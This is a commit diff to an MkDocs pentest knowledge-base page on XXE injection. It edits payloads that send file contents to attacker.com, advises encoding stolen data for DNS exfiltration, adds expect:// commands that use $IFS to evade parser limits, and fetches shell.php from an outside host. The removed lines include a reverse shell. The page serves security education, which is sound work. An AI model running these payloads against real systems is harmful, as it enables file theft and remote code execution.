

Before and after one commit to HansMolemanPNG/hansmolemanpng.github.io, an MkDocs documentation site: the page built from docs/kb/injection-attacks/xxe.md, in a window 1280 px wide and 1400 px high, scrolled down 36738 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; some of the changed text lies outside the part shown.

Commit message:
Update xxe.md

````diff
--- a/docs/kb/injection-attacks/xxe.md
+++ b/docs/kb/injection-attacks/xxe.md
@@ -93,13 +93,13 @@ And they are referenced with `%filename;` instead of `&name;`:
 Why do they matter? Because parameter entities can define other entities. This creates a chain where one entity sets up another entity which sets up another. Here is a simplified example of how chaining works:
 
 ```xml
-<!ENTITY % step1 "file:///etc/hostname">
+<!ENTITY % step1 SYSTEM "file:///etc/hostname">
 <!ENTITY % step2 "<!ENTITY &#x25; step3 SYSTEM 'http://attacker.com/?data=%step1;'>">
 %step2;
 %step3;
 ```
 
-What happens here: `%step1` reads the hostname file, `%step2` creates a new entity that embeds the hostname into a URL, and `%step3` makes the parser visit that URL — sending the stolen data to the attacker. Don't worry about the `&#x25;` syntax for now, it is explained in detail in the [OOB section](#understanding-the-escape-characters).
+What happens here: `%step1` is an external entity (the `SYSTEM` keyword makes it fetch the file instead of treating the value as a literal string), `%step2` creates a new entity that embeds the hostname into a URL, and `%step3` makes the parser visit that URL — sending the stolen data to the attacker. Don't worry about the `&#x25;` syntax for now, it is explained in detail in the [OOB section](#understanding-the-escape-characters).
 
 This chaining ability is what makes advanced XXE techniques (like blind exfiltration and OOB attacks) possible.
 
@@ -130,7 +130,7 @@ To understand the difference between a harmless entity and a dangerous one, comp
 **Internal entity (harmless):**
 
 ```XML
-<!--?xml version="1.0" ?-->
+<?xml version="1.0" ?>
 <!DOCTYPE replace [<!ENTITY example "Doe"> ]>
  <userInfo>
   <firstName>John</firstName>
@@ -143,7 +143,7 @@ Here the attacker is defining the entity "example", assigning the value "Doe" to
 **External entity (dangerous):**
 
 ```XML
-<!--?xml version="1.0" ?-->
+<?xml version="1.0" ?>
 <!DOCTYPE replace [<!ENTITY example SYSTEM "file:///etc/passwd"> ]>
  <userInfo>
   <firstName>John</firstName>
@@ -1367,7 +1367,9 @@ Monitor DNS queries on `attacker.com` to capture data. Tools like `dnsdumpster`
 %exfiltrate;
 ```
 
-Keep in mind that DNS has strict length limits: each label (subdomain component) can be at most 63 characters and the full domain name cannot exceed 253 characters. This means DNS exfiltration works best for short values (hostname, single config values, usernames) but not for large files. For longer content you would need to split the data into chunks and send multiple DNS queries, or combine this with other techniques.
+There are two important limitations to keep in mind. First, DNS has strict length limits: each label (subdomain component) can be at most 63 characters and the full domain name cannot exceed 253 characters. Second — and this is easy to overlook — DNS labels only accept alphanumeric characters (a-z, 0-9) and hyphens. Characters like `:`, `/`, newlines and spaces will break the query. Since files like `/etc/passwd` are full of these characters, the payloads above will only work as-is for files with very simple content (like `/etc/hostname` which is typically a single word).
+
+To exfiltrate anything meaningful we need to encode the data before embedding it in the subdomain. Base32 is the safest option because its output only contains A-Z and 2-7 — all valid DNS characters. Base64 works in some contexts but its output includes `+`, `/` and `=` which are also invalid in labels. In PHP environments we can combine `php://filter/convert.base64-encode` with the exfiltration payload to get clean ASCII before it hits the DNS query. For files longer than 63 characters, split the encoded data into chunks across multiple labels or multiple queries.
 
 ## PHP Wrappers
 
@@ -1394,10 +1396,23 @@ uid=33(www-data) gid=33(www-data) groups=33(www-data)
 More examples:
 
 ```xml
-<!ENTITY xxe SYSTEM "expect://cat /etc/passwd">
-<!ENTITY xxe SYSTEM "expect://bash -i >& /dev/tcp/attacker.com/4444 0>&1">
-<!ENTITY xxe SYSTEM "expect://curl http://attacker.com/?data=$(cat /etc/passwd | base64)">
-```
+<!ENTITY xxe SYSTEM "expect://id">
+<!ENTITY xxe SYSTEM "expect://whoami">
+```
+
+**⚠️ Character restrictions in expect:// URIs.** There is a catch when running commands with arguments: PHP's XML parser treats the `expect://` URI literally and rejects it if it contains spaces, `>`, `&` or other special characters. A payload like `expect://cat /etc/passwd` will fail with an "Invalid URI" error. URL encoding (`%20`, `+`) does not help — the parser does not decode it. XML character references (`&#x20;`) do not work either.
+
+The workaround is to replace spaces with `$IFS` — the shell Internal Field Separator variable. When the next argument starts with letters, wrap it in single quotes so the shell does not try to read it as part of the variable name:
+
+```xml
+<!-- cat /etc/passwd → replace spaces with $IFS -->
+<!ENTITY xxe SYSTEM "expect://cat$IFS/etc/passwd">
+
+<!-- curl -O http://1.3.3.7/shell.php → $IFS + quotes for args -->
+<!ENTITY xxe SYSTEM "expect://curl$IFS-O$IFS'1.3.3.7/shell.php'">
+```
+
+For complex commands like reverse shells it is easier to use `expect://` to download a script first and then execute it in a second request, rather than cramming the whole command into a single URI.
 
 `expect://` requires the PHP `expect` extension which as mentioned is rarely present in production environments.
 
@@ -1498,7 +1513,7 @@ RMI example:
 |"Unknown protocol: X"             |Typo in protocol name           |Use valid protocols: `file://`, `http://`, `ftp://`|
 |No entity expansion in output     |Entity expansion disabled       |Try XInclude or wrapper techniques                 |
 |No callback received from OOB     |Firewall blocking outbound      |Use DNS-based OOB; test from DMZ if possible       |
-|File contents show only first line|Binary/special characters       |Use CDATA or error-based exfiltration              |
+|File contents show only first line|Binary/special characters       |Use error-based or OOB exfiltration; use php://filter for encoding|
 |DOCTYPE not allowed error         |DOCTYPE explicitly disabled     |Use XInclude or file upload techniques             |
 |Entity limit exceeded             |Billion Laughs protection active|Use single entity; avoid recursive expansion       |
 |403/500 on OOB callback           |WAF blocking the request        |Obfuscate URL; use different protocols             |
@@ -1554,7 +1569,7 @@ unzip interactsh-client_1.0.0_linux_amd64.zip
 
 ## OWASP
 
-- [A05:2021 – XML External Entity (XXE)](https://owasp.org/Top10/A05_2021-XML_External_Entity_XXE/)
+- [A05:2021 – Security Misconfiguration (includes XXE)](https://owasp.org/Top10/A05_2021-Security_Misconfiguration/)
 - https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html
 - https://owasp.org/www-community/attacks/XML_External_Entity_(XXE)_Processing
 
@@ -1574,5 +1589,3 @@ unzip interactsh-client_1.0.0_linux_amd64.zip
 
 - **XML External Entity (XXE) Processing** - NIST Guidelines
 - **DTD Security Considerations** - W3C XML Specifications
-
------
````
